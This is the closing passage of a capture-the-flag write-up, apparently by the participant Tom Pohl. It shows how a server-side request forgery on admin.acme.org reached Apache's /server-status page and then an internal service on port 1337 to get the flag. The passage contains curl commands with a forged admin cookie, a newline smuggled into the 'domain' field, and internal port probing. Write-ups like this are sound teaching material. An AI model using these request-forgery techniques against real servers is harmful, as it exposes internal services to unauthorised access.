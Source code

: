 Could this be it? Have I finally done it? I can barely contain myself as I decode the flag: "You really thought it would be that easy? Keep digging!"
(insert Darth Vader Noooooo meme)

I'm pretty sure this is the point where I started drinking. I stepped away, walked around the office, let my mind wander and came back to the task a while later. I read through my notes and go back and remember that /server-status is active on apache, but it was forbidden! I instantly remember that I know that apache server-status is allowed from 127.0.0.1 by default if you never changed the default configuration. 

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com/server-status\n.com\"}" http://admin.acme.org/ -v
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=165 -v
	...
	{"data":"PCFET0NUWVBFIEhUTUwg
	...
	CjwvYm9keT48L2h0bWw+Cg=="}
```

Sure enough! /server-status returns all of the other poor souls pounding away on the poor server. I might have spent far too much time requesting this page over and over again hoping to see a request to a secret URL that I need to retrieve. The elusive URL wasn't going to present itself. Then I think "If I can hit /server-status, maybe there's another service running on the host that I can hit from the inside of the box!" I first test my theory with a working /flag URL but add a :80 in the URL.

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com:80/flag\n.com\"}" http://admin.acme.org/ -v
```

That still worked! So now I just need to manipulate :80 until I find another port! It literally took me 3 additional tries (81, 8080, and then 1337):

Money Shot:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com:1337/flag\n.com\"}" http://admin.acme.org/ -v
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=1billion -v ;)
	...
{"data":"RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK"}
```

When I decoded the data section I could hardly believe it! The FLAG!!
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6

Thank you SO MUCH for this awesome challenge! It was quite the brain teaser!

I hope to get to meet all of you in New York!
-Tom

Tom Pohl
@tompohl - twitter
